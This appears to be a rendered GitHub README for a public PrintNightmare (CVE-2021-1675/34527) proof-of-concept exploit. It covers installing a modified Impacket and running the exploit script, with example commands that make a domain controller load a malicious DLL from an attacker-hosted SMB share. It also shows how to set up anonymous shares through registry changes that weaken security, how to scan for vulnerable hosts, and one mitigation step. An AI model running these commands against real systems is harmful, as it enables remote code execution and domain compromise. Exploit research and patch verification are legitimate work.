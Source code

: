 # CVE-2021-1675

C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/cube0x0](https://github.com/cube0x0) |
| Url      | [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)                                               |
| Stars    | 1709                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-1675 / CVE-2021-34527

Impacket implementation of the [PrintNightmare ](https://github.com/afwu/PrintNightmare) PoC originally created by Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@lxf02942370)

Tested on a fully patched 2019 Domain Controller

Execute malicious DLL's remote or locally

![](Images/poc2.png)

### Patch update
Microsoft has released a patch to mitigate against these attacks but if these values below are present on a machine, then the machine will still be vulnerable
```
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

### Installation

Before running the exploit you need to install my version of Impacket and after that you're gucci

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

### CVE-2021-1675.py

```
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### SMB configuration

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf   ` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

From windows it's also possible

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

### Scanning

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable 

```bash
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

### Mitigation

Disable Spooler service

```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f
```






## Get the content

```
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675
```

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

<figure><img src="https://avatars.githubusercontent.com/u/39370848?v=4" alt=""><figcaption><p>cube0x0</p></figcaption></figure>
